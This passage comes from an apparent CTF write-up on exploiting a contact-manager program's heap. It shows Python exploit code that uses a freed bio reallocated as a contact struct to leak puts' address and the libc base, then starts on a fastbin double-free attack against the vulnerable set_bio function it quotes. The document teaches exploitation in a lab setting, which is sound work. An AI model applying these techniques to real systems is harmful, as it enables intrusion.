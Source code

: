 In Python, this translates to:
```python
class Contact(c_struct):
    _fields_ = [('p_name', c_int64),
                ('p_bio', c_int64)]

#Create a fake bio which is crafted to look like a contact struct
bio_as_contact = Contact()
bio_as_contact.p_name = 0;
bio_as_contact.p_bio = e.got["puts"]

create_contact("Leak1")
set_bio("Leak1", bio_as_contact.to_bytes())
free_bio("Leak1")
create_contact("Leak2") # Heap manager will allocate fake bio as Leak2 contact struct
puts_address = u64(get_bio("Leak2").ljust(8, '\x00'))
log.info("Runtime address of puts(): {}".format(hex(puts_address)))
libc_base = puts_address - libc.symbols['puts']
log.info("LibC base: {}".format(hex(libc_base)))
assert (libc_base & 0xFFF == 0)
```

Now, we move on to the second part of the exploit, which attacks fastbin. We will use a [double free](https://heap-exploitation.dhavalkapil.com/attacks/double_free.html) vulnerability together with a [forged chunk](https://heap-exploitation.dhavalkapil.com/attacks/forging_chunks.html) attack. A practical explanation of the attacked can also be found [here](https://sensepost.com/blog/2017/linux-heap-exploitation-intro-series-riding-free-on-the-heap-double-free-attacks/).

A "Double free" can be performed if we have the ability to free the same chunk of memory twice. This means that it will be added to the same "[free list](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks.html)" twice (in our case - the fastbin free list, since we will be dealing with small chunks of memory). We'll see how this can be used in a moment, but first - let's take a look at the vulnerability in `set_bio`:
```c
void set_bio(struct contact *contact){
    [...]

    /* we'll replace the old bio */
    if (contact->bio != NULL){
        free(contact->bio);
    }

    puts("How long will the bio be?");
    if (fgets(input, 4, stdin) == NULL){
        puts("Couldn't read length.");
        return;
    };

    length = strtoul(input, NULL, 10);
    if (length > 255){
        puts("Bio must be at most 255 characters.");
        return;
    }

    [...]
```
